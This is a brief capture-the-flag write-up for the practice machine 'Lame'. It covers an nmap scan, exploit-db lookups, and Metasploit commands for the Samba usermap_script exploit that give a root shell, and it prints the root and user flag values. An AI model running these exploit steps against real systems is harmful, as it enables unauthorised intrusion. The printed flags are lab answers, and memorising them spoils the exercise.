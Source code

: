 # [cd ../](../index.md)

---

# Lame
## Details
Name | Lame
--- | ---
IP | 10.10.10.3
Os | Linux
Points | Easy (20)

# Start
## Recon
### Nmap
[nmap_big.txt](nmap/nmap_big.txt)  
Open ports:

Port | Service | Version
:--- | :---: | ---:
21 | ftp | vsftpd 2.3.4
22 | ssh | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3652 | distccd | distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))


## Exploitin'
Shh is usually not vulnerable but ftp and samba could be!
So just hit up [exploit-db](https://www.exploit-db.com/) and search for versions!  

### ftp
We found [this](https://www.exploit-db.com/exploits/17491) ftp exploit that could work.
We could try it but it isnt exploitable in this instance. ):

### smb
So we have to search for smb exploits!  
After some time we could find [this](https://www.exploit-db.com/exploits/16320) smb rce exploit for msf!  
Just open metasploit and use it! :D
```
msfconsole
search usermap_script
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
run
```
And we got a root shell!
![shell.png](shell.png)

# Got the root and user flag too
```
/root/root.txt
92caac3be140ef409e45721348a4e9df

/home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```
